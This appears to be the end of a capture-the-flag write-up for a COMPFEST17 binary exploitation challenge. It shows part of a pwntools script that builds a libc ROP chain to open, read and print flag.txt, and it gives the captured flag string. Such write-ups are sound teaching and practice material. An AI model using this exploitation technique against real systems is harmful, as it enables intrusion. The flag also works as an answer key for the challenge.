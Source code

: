 ```python
        alloc(0, 0x18, p64(fp))

    with log.progress("Doing ORW"), context.silent:
        menu(4)
        rop = ROP(libc)
        rop.rax = 0
        rop.rdx = 0x200
        rop.raw(nsa(libc, "syscall ; ret"))
        sla("detective!", rop.chain())
        offset = 0x30
        payload = flat({offset: [orw(libc.bss() + 0xd8) + b"flag.txt\0"]})
        sl(payload)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{3X1T_ORw_cha1n}`